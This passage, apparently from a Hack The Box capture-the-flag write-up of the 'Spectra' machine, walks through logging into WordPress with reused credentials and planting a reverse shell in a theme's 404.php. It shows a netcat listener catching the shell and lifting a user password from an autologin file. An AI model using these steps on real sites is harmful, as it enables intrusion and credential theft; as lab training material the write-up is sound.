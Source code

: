 We can now try the new credentials we found:

-  Access the sql database using this credentials. Not possible as the access is restricted to localhost (`define( 'DB_HOST', 'localhost' );`. 
-  We try ssh. Credentials not correct. 
-  We try to login in wordpress (`http://spectra.htb/ /main/wp-admin`). Credentials not correct. 

Moving around in the wordpress site, another username pops up:  `administrator`.  
We thus try the pair 'administrator' and 'devteam01' to login in Wordpress. It works and we are in!

## nginx user
We managed to break into the Wordpress portal as the `administrator` user.  
We now have to find a way to access the underline OS.  

It can be easily done by inserting a reverse shell in the `404.php` page of the active wordpress theme. The malicious code will be triggered when the page get visited.  
In order to do this, we go to `Plugins > Theme editor`, then replace the code in `404.php` with our reverse shell.  
I was to able to modify the `404.php` page of the active theme (*Twenty Twenty*), so I injected my rev shell in the 404 page of the *Twenty Seventeen* theme, and activate it.  

Once the file is updated successfully, we can trigger our reverse shell by directly visiting the `http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php`  or by visiting a non existing page (e.g. `http://spectra.htb/main/ssas`) which would serve the 404 page.


```
koen@koen:~/Uni/HTB/Machines/Spectra$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.200] from (UNKNOWN) [10.10.10.229] 44698
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 13:47:58 up 19 min,  0 users,  load average: 0.05, 0.19, 0.20
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ whoami
nginx
```

## Katie user


In `/opt` we have a suspicious file  `autologin.conf.orig`

```
for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
```

The above script checks whether a `passwd` file is stored in the `/mnt/stateful_partition/etc/autologin` or `/etc/autologin`.  
By printing the content of `/etc/autologin/passwd` we found the password of the **katie** user: SummerHereWeCome!!
